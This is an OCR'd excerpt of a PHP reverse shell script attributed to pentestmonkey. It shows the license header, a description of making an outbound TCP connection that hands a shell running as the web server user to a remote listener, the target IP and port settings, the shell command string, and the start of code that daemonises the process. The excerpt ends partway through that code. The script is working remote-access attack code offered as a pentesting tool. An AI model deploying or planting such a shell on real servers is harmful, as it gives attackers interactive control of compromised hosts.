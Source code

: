 ```php
// with this program; if not, write to the Free Software Foundation, Inc.,
// 51 Franklin Street, Fifth Floor, Boston, MA 02110-1301 USA.
//
// This tool may be used for legal purposes only.  Users take full responsibility
// for any actions performed using this tool.  If these terms are not acceptable to
// you, then do not use this tool.
//
// You are encouraged to send comments, improvements or suggestions to
// me at pentestmonkey@pentestmonkey.net
//
// Description
// -----------
// This script will make an outbound TCP connection to a hardcoded IP and port.
// The recipient will be given a shell running as the current user (apache normally).
//
// Limitations
// -----------
// proc_open and stream_set_blocking require PHP version 4.3+, or 5+
// Use of stream_select() on file descriptors returned by proc_open() will fail and return FALSE under Windows.
// Some compile-time options are needed for daemonisation (like pcntl, posix).  These are rarely available.
//
// Usage
// -----
// See http://pentestmonkey.net/tools/php-reverse-shell if you get stuck.

set_time_limit (0);
$VERSION = "1.0";
$ip = '127.0.0.1';  // CHANGE THIS
$port = 443;       // CHANGE THIS
$chunk_size = 1400;
$write_a = null;
$error_a = null;
$shell = 'uname -a; w; id; /bin/sh -i';
$daemon = 0;
$debug = 0;

//
// Daemonise ourself if possible to avoid zombies later
//

// pcntl_fork is hardly ever available, but will allow us to daemonise
// our php process and avoid zombies.  Worth a try...
if (function_exists('pcntl_fork')) {
	// Fork and have the parent process exit
	$pid = pcntl_fork();

	if ($pid == -1) {
		printit("ERROR: Can't fork");
		exit(1);
	}

	if ($pid) {
		exit(0);  // Parent exits
	}

	// Make the current process a session leader
	// Will only succeed if we forked
	if (posix_setsid() == -1) {
		printit("Error: Can't setsid()");
		exit(1);
	}
```